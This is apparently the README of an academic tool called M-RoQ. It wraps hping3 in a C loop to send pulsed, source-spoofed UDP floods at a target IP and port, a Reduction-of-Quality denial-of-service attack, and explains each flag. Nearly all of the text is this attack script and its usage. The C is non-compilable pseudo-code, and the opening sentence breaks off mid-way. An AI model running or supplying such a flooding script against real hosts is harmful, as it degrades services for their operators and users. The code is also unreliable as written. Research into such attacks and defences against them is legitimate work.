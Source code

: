 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while(<time in seconds>)<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{<br>
system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
usleep(<time in miliseconds>);<br>
time in seconds++;<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br>
system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
